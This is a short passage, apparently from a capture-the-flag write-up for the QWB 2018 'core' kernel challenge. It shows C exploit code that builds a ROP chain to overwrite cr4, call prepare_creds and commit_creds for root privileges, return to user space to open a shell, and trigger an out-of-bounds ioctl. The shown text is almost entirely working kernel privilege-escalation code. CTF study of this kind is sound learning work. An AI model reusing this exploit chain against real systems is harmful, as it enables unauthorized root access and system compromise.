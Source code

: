 ```c
    p[ct++] = cr4_ret;
    p[ct++] = shellcode();
    p[ct++] = prepare_creds;
    p[ct++] = commit_cred; 

    // Back to user space
    save_status();
    p[ct++] = shell;
    p[ct++] = user_cs;
    p[ct++] = user_rflags;
    p[ct++] = user_sp;
    p[ct++] = user_ss;


    // Attack
    write(fd,buf,0x100);
    size_t poc = 1;
    poc = (poc<<63) | 0x100;
    ioctl(fd,OOB,poc);  
}
```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment/tree/main/QWB_2018/core
